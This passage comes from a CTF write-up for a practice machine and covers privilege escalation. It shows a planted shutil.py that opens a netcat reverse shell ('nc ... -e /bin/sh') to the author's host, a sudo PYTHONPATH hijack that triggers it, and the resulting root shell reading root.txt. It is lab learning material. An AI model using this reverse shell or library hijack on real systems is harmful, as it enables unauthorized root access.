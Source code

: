 It imports the module shutil and calls make_archive from it. 

In Python, modules have "scope" similar to variables. So, we can decalre another "shutil" and "make_archive" function by changing the path the script appears to be run from.

Let's start doing this by going to the /tmp/ directories where we have permission to write files. Let's make a sample ''shutil.py'' with a ''make_archive'' function that will be called.

```
waldo@admirer:/tmp/notouchme$ cat shutil.py
import os
def make_archive(a, b, c):
        os.system('nc 10.10.15.76 9001 -e "/bin/sh"')
```

When we call the shell script and it executes the python script, it will now call our version of make_archive which will interact with the netcat listener I set up on my own machine.

For reference, the command I used on my local machine is ``nc -lnvp 9001``.

Cool, now all that is needed is to trick the python script into running in the directory where we wrote to it. You can see that being done in this command:

```
sudo PYTHONPATH=/tmp/notouchme/ /opt/scripts/admin_tasks.sh
```

After running this, I check the lister I had opened before:

```
kali@kali:~$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.15.76] from (UNKNOWN) [10.10.10.187] 58748
whoami
root
ls
bruh.py
shutil.py
cd /root/
ls
root.txt
cat root.txt
<omit>
```

AND THE BOX IS SOLVED!!! poggers.

## Conclusion

The priv escalation part was made easy because other people had already solved the problem and left behind way too much of a trail to ignore. Because of this, it was very easy to reverse what they had done and figure out what was needed to exploit the box. This is a really poor way of doing things and I will refrain from it in the future. For now, I'm just excited to have another solve, even if I only did like 70% of the exploitation, under my belt.












